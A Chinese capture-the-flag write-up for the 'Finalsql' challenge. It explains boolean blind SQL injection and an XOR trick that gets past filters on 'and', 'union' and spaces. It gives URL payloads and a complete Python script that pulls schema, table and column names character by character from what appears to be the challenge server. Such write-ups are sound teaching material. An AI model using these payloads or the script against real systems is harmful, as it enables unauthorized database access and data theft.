



# Finalsql
## 考察知识点：
### 1.布尔盲注
### 2.xor注入（适用于and,or,空格，逗号的场景）

## fuzz测试：


发现and，union，空格都被过滤

没有报错界面，发现返回结果只有三种，查询回显的数据，报错ERROR!!!和被waf拦截的界面

此时可以想到布尔盲注

构造payload:`?id=0^1^0`



发现返回id=1时的界面，此时可以考虑xor注入

payload:`?id=0^(ascii(substr((database()),1,1))>99)^0`



说明此时数据库名第一位ascii为103，为g。和前面的sql注入一样

构造exp：
```
# coding=utf-8
# 确定字符编码为utf-8
# python3
# author: 黑白
# 导入request模块
import requests


# 用于匹配的字符串
# dic1=' "?/+=~.,@#$%^&*()QWERTYUIOPASDFGHJKLZXCVBNM'
dic = ',0123456789abcdefghijklmnopqrstuvwxyz_'

# 请求的url
url = "http://118.25.14.40:8104/search.php?id=0^"
string = ''
for i in range(1, 100):
    for j in range(32,127):

        ##################################################################################
        # id="substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),{0},1)={1}--+".format(str(i),ascii(j))
        # id = "(ascii(substr((database()),{0},1))>{1})^0".format(str(i), j)
        # F1naI1y, Flaaaaag
        # id = "(ascii(substr((select(group_concat(TABLE_NAME))from(information_schema.tables)where(table_schema)='geek'),{0},1))>{1})^0".format(str(i), j)

        id = "(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='Flaaaaag'),{0},1))>{1})^0".format(str(i), j)
        # print(id)

        # 最后请求的url=url+id
        url_get = (url + id)
        # print(url_get)
        r = requests.get(url_get)

        ########################################################################################
        if "ERROR！！！" in r.text:
            string += chr(j)
            print(string)

            break
        # print(url_get)
    # print(r.text)
print(string)

```

参考文章：

https://www.anquanke.com/post/id/160584#h3-18